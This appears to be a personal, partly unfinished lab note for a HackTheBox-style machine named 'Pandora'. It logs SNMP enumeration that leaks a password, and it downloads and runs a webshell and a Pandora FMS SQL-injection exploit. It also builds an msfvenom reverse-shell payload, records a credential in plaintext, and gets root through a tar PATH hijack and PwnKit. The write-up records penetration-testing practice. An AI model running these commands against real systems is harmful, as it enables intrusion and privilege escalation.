

# Summary


## about target

tip:  10.129.141.83

hostname:  Pandora

Difficulty:  Easy


## about attack

+ snmp enum, snmpwalk/snmpbulkwalk/snmp-check, grep running process
+ udp scan, if no information from tcp port
+ path hijack to privesc, tar
+ Tar wild char privesc, recheck.


**attack note**

```bash
Pandora / 10.129.228.124

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24c295a5c30b3ff3173c68d7af2b5338 (RSA)
|   256 b1417799469a6c5dd2982fc0329ace03 (ECDSA)
|_  256 e736433ba9478a190158b2bc89f65108 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


---- Interesting


---- Enum 
# udp scan
scp daniel@$tip:/tmp/daniel-lp.log ./

ssh -Nf -L 8000:127.0.0.1:80 daniel@$tip
ss -tulpn

pxc wget https://github.com/WhiteWinterWolf/wwwolf-php-webshell/raw/master/webshell.php
vim webshell.php
pxc wget https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/raw/master/sqlpwn.py

python sqlpwn.py -h

python sqlpwn.py -t 127.0.0.1:8000 -f webshell.php

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f elf -o binary.elf

echo 'PandoraFMSSecurePass2021' >> creds.txt

-- web enum
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -u http://$tip -o gobuster.log

-- snmp enum
# /usr/share/snmp/linux.txt
## no process parameters
found process, /usr/bin/host_check, strange.
snmpenum $tip public linux.txt

# snmpwalk
snmpwalk -c public -v2c panda.htb > snmpwalk-public-v2c.log

## bulkwalk, quicker than snmpwalk
snmpbulkwalk -c public -v2c panda.htb . > snmpbulkwalk-public-v2c.log
snmpbulkwalk -c public -v2c panda.htb . > snmpwalk.1
grep -i host_check snmpwalk.1
## grep the process, also found password.
grep -i host_check snmpwalk.1

## regular way to search

---- Foothold


---- System
# suid file 
/usr/bin/pandora_backup

nc -nvlp 9002 > pandora_backup

file pandora_backup
md5sum pandora_backup
strings pandora_backup

# execute pandora_backup failed, get suid permission failed.
# ssh key login
ssh-keygen -f matt
chmod 600 matt
scp -i matt matt@$tip:/tmp/matt-lp.log ./
scp -i matt matt@$tip:/home/matt/matt-lp2.log ./

echo "/bin/bash" > tar
export PATH=/home/matt:$PATH
/usr/bin/pandora_backup 

# got root

# way 2, pwnkit, suid pkexec
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
pxc curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit


```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


## snmp enum


# Foothold


# Privesc


## shell matt





## proof

```bash


```


